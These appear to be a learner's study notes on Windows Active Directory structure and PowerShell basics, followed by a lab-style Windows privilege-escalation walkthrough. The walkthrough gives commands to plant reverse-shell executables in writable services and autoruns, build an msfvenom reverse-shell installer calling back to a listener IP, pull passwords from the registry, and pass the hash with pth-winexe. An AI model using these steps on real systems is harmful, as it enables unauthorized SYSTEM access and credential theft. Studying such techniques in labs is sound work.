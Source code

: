 # Windows

#Active Directory Data Store
Contains the NTDS.dit - a database that contains all of the information of an Active Directory domain controller as well as password hashes for domain users
Stored by default in %SystemRoot%\NTDS
accessible only by the domain controller

#Forest Overview
Trees - A hierarchy of domains in Active Directory Domain Services
Domains - Used to group and manage objects 
Organizational Units (OUs) - Containers for groups, computers, users, printers and other OUs
Trusts - Allows users to access resources in other domains
Objects - users, groups, printers, computers, shares
Domain Services - DNS Server, LLMNR, IPv6
Domain Schema - Rules for object creation

#Users Overview
Domain Admins - This is the big boss: they control the domains and are the only ones with access to the domain controller.
Service Accounts (Can be Domain Admins) - These are for the most part never used except for service maintenance, they are required by Windows for services such as SQL to pair a service with a service account
Local Administrators - These users can make changes to local machines as an administrator and may even be able to control other normal users, but they cannot access the domain controller
Domain Users - These are your everyday users. They can log in on the machines they have the authorization to access and may have local administrator rights to machines depending on the organization.

#Default Security Groups
Domain Controllers - All domain controllers in the domain
Domain Guests - All domain guests
Domain Users - All domain users
Domain Computers - All workstations and servers joined to the domain
Domain Admins - Designated administrators of the domain
Enterprise Admins - Designated administrators of the enterprise
Schema Admins - Designated administrators of the schema
DNS Admins - DNS Administrators Group
DNS Update Proxy - DNS clients who are permitted to perform dynamic updates on behalf of some other clients (such as DHCP servers).
Allowed RODC Password Replication Group - Members in this group can have their passwords replicated to all read-only domain controllers in the domain
Group Policy Creator Owners - Members in this group can modify group policy for the domain
Denied RODC Password Replication Group - Members in this group cannot have their passwords replicated to any read-only domain controllers in the domain
Protected Users - Members of this group are afforded additional protections against authentication security threats. See http://go.microsoft.com/fwlink/?LinkId=298939 for more information.
Cert Publishers - Members of this group are permitted to publish certificates to the directory
Read-Only Domain Controllers - Members of this group are Read-Only Domain Controllers in the domain
Enterprise Read-Only Domain Controllers - Members of this group are Read-Only Domain Controllers in the enterprise
Key Admins - Members of this group can perform administrative actions on key objects within the domain.
Enterprise Key Admins - Members of this group can perform administrative actions on key objects within the forest.
Cloneable Domain Controllers - Members of this group that are domain controllers may be cloned.
RAS and IAS Servers - Servers in this group can access remote access properties of users

#Policies
Disable Windows Defender - Disables windows defender across all machine on the domain
Digitally Sign Communication (Always) - Can disable or enable SMB signing on the domain controller

#Default Domain Services
LDAP - Lightweight Directory Access Protocol; provides communication between applications and directory services
Certificate Services - allows the domain controller to create, validate, and revoke public key certificates
DNS, LLMNR, NBT-NS - Domain Name Services for identifying IP hostnames

#WinServ AD vs    Azure AD
Windows Server AD	Azure AD
LDAP	            Rest APIs
NTLM	            OAuth/SAML
Kerberos	        OpenID
OU Tree	          Flat Structure
Domains/Forests 	Tenants
Trusts	          Guests

#list of all operating systems on the domain
Get-NetComputer -fulldata | select operatingsystem

#List of all users on the domain
Get-NetUser | select cn

#PowerShell
Resource: https://learnxinyminutes.com/docs/powershell/

#Using Get-Help
Get-Help Command-Name
-examples

Get-Command Verb-*
Get-Command *-Noun

The Pipeline(|) is used to pass output from one cmdlet to another. A major difference compared to other shells is that instead of passing text or string to the command after the pipe, powershell passes an object to the next cmdlet. Like every object in object oriented frameworks, an object will contain methods and properties. You can think of methods as functions that can be applied to output from the cmdlet and you can think of properties as variables in the output from a cmdlet. To view these details, pass the output of a cmdlet to the Get-Member cmdlet

#Object Manipulation
Verb-Noun | Get-Member 
An example of running this to view the members for Get-Command is:
Get-Command | Get-Member -MemberType Method
One way of manipulating objects is pulling out the properties from the output of a cmdlet and creating a new object. This is done using Select-Object

an example of listing the directories and just selecting the mode and the name:
![image](https://user-images.githubusercontent.com/113439757/213785676-a2d2e19e-6d7b-4e17-bef7-103d3ddfd22b.png)
You can also use the following flags to select particular information:
first - gets the first x object
last - gets the last x object
unique - shows the unique objects
skip - skips x objects

#Filtering Objects
Verb-Noun | Where-Object -Property PropertyName -operator Value
Verb-Noun | Where-Object {$_.PropertyName -operator Value}
The second version uses the $_ operator to iterate through every object passed to the Where-Object cmdlet.
Where -operator is a list of the following operators:
-Contains: if any item in the property value is an exact match for the specified value
-EQ: if the property value is the same as the specified value
-GT: if the property value is greater than the specified value
Full list of operators
https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-7.3&viewFallbackFrom=powershell-6

#Sort Objects
Verb-Noun | Sort-Object

#IP address info
Get-NetIPAddress

#Sysinternals
#Insecure Service Permissions with Accesschk
#Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
#Query the service
sc qc daclsvc
#start the service 
net start daclsvc

#Unquoted service path
Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.
sc qc unquotedsvc
Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
Copy the reverse.exe executable you created to this directory and rename it Common.exe:
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
net start unquotedsvc

#Weak registry permissions
##Query the "regsvc" service
sc qc regsvc
#note if the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc

#Service Exploits
#Query the "filepermsvc" service
sc qc filepermsvc
Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
Copy the reverse.exe executable you created and replace the filepermservice.exe with it:
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
net start filepermsvc

#Autoruns
Query the registry for AutoRun executables:
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!
rdesktop MACHINE_IP

#AlwaysInstallElevated
Query the registry for AlwaysInstallElevated keys:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Note that both keys are set to 1 (0x1).
On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).
Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi

#Passwords
The registry can be searched for keys and values that contain the word "password":
reg query HKLM /f password /t REG_SZ /s
If you want to save some time, query this specific key to find admin AutoLogon credentials:
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):
winexe -U 'admin%password' //MACHINE_IP cmd.exe

#List any saved credentials:
cmdkey /list

#Pass the hash
Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. Remember the full hash includes both the LM and NTLM hash, separated by a colon:
pth-winexe -U 'admin%hash' //MACHINE_IP cmd.exe

#Insecure GUI apps
tasklist /V | findstr calc.exe
click "File" and then "Open". In the open file dialog box, click in the navigation input and paste: file://c:/windows/system32/cmd.exe
Press Enter to spawn a command prompt running with admin privileges

#Priv esc program resources
winPEASany.exe
Seatbelt.exe
PowerUp.ps1
SharpUp.exe
